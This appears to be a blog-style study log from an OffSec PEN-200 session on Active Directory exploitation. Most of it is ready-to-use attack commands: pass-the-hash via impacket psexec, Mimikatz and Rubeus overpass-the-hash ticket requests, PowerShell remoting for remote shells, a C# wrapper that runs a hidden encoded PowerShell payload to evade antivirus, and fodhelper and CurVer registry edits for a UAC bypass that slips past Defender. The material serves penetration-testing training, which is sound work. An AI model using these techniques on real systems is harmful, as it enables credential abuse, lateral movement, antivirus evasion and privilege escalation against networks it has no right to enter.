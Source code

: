 ```yaml
---
title: 'OffSec Live: PEN-200'
date: 2022-09-02 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-09-02-offsec-live-pen-200.html
author: 100007
---
```


# Active Directory Enumeration & Exploitation, Part 4

LM hashes aren’t used in WIndows anymore, and often empty or garbage values will work fine when passing a full NTLM hash (only the NT hash is important).

```
proxychains python3 \
	/usr/share/doc/python3-impacket/examples/psexec.py \
	-hashes ${LM_HASH}:${NT_HASH} ${USER}@${MACHINE}
```

There’s a technique called “overpass the hash” that allows you to take advantage of accounts that are authorized to interact with services but _not_ machines on a domain. The idea behind overpass-the-hash is to request a ticket from the domain controller for one user but then use that as the authentication credentials for a different user when running a command. This allows you to be logged in as, say, a service account but then use the credentials for a domain admin to interact with the domain controller. Stealthy!

```
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NT_HASH /run:$COMMAND"'
```

Note that the “NTLM” hash in the Mimikatz command line is actually just the NT hash.

Another reason to use overpass-the-hash is to be able to interact with services that are restricted to certain users who do _not_ have login permissions. This is a common(ish) technique for securing services on a domain.

Note that whenever an overpass-the-hash attack, the output of whoami will become desynced to your network credentials - whoami will still show the user you’re logged into, but the domain credentials you use on the network will be those of the user whose hash you “overpassed”.

Rubeus can be used to _remove_ tickets from an account.

```
Rubeus.exe purge
```

You can also use Rubeus to grab new tickets from a domain controller for a user in an overpass-the-hash attack.

```
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NT_HASH /ptt
```

Note that Rubeus is generally detected by Windows AV these days.

The whole point of all of this is that when interacting with remote computers in an Active Directory domain, what matters is the _hash_ you present, _not_ the local user!

Many large companies will enable PowerShell Remoting on all machines in order to ease IT support burdens (by default, remoting is only enabled on domain controllers).

```
Invoke-Command -ComputerName $MACHINE `
	-ScriptBlock {$COMMANDS_TO_RUN}
```

Remoting can be used to create a reverse shell.

```
$SESSION_NAME = New-PSSession -ComputerName "$MACHINE"
Enter-PSSession -Session $SESSION_NAME
```

You need to be logged in as a user with permission to use PowerShell for remote administration, however, or be using overpass-the-hash to get an equivalent set of credentials.

C# can be used to bypass AV (at least as of September 2022) - just create a C# wrapper that fires up a PowerShell one-liner. (Sometimes this will need to be modified slightly to bypass AV, but generally you don’t have to tweak this code much - C# analysis doesn’t seem to be particularly robust for most AV products.)

```
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
```

This can be compiled using PowerShell - perhaps even on the target itself. What’s the advantage to doing this? You can use Invoke-Mimikatz to run this binary remotely to quickly obtain a remote shell with the permissions of the user you’re impersonating with overpass-the-hash (this is a way of getting a shell on a machine that you can interact with, but aren’t allowed to open a shell on directly).

```
$code = @"
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
"@
Add-Type -outputtype consoleapplication -outputassembly $BINARY_NAME -TypeDefinition $code -Language CSharp
```

The fodhelper binary can be abused to gain an admin shell on Windows boxes with two registry key changes.

```
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe"
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
```

Note that if you try to put powershell.exe into this, Defender will block the shell from being opened (in fact, the key value will be cleared on run). Other AV tools will even detect cmd.exe. It looks like this can be bypassed, however, by using the CurVer registry key to point fodhelper.exe to a different registry location:

```
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" `
	-Name "(default)" -Value "cmd.exe /c start powershell.exe" -Force

New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty "HKCU:\Software\Classes\ms-settings\CurVer" `
	-Name "(default)" -value ".pwn" -Force
```

- [Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
